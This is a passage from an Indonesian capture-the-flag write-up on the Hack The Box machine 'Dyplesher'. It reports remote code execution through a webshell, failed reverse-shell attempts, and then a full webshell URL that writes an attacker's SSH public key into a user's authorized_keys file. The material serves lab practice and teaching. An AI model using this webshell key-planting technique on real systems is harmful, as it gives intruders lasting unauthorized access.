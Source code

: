 ![Image](img/22.PNG)

![Image](img/23.PNG)

Mantap kita sudah mendapat RCE dan berhasil melakukan whoami

Penulis kemudian mencoba membuka reverse shell menggunakan beberapa payload berbeda seperti python, netcat, bash namun tidak ada yang berhasil. Sepertinya pada machine ini terdapat firewall yang melakukan restriction connectin outbound

Jadi cara yang memungkinkan adalah dengan memasukkan ssh public key kita kedalam /home/MinatoTW/.ssh/authorized_keys menggunakan webshell yang sudah kita miliki saat ini

```
http://test.dyplesher.htb/rev.php?cmd=echo%20ssh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABgQC7ujNTqjCu3sovW2WgNZF5ErZXaGa5TrwLhvEaFu2NVv9GTGKtE8wRymiRYhzppfTJ7ycBetXoj7jb6AAKRTEmC9B2CI2%2BtyhvEtrDYpooCm2xUPA%2FCxhiLByi8x2ucdV7SYiaI0HhuYthFqS%2BoQPk6eD0nkIWY%2FiPpA1xsremhsft6fhRnedlqVXgGNULGJaUIYJFk9IPm3Zt5OzCLc5Sldpg%2Fc8loLIBb6VF7zMM3hvXgJ<--CENSORED-->QLmEv%2FWkrY1TvG7ps83envBkKnQoMFSQbK9SWMiQWRH3SrneLS%2Bc7YNGP08ADT4oGpRQspBHstnt3vWS1p3x6wTUnZqqO81onShvE%3D%20root%40kali%20%3E%20%2Fhome%2FMinatoTW%2F.ssh%2Fauthorized_keys
```

### User
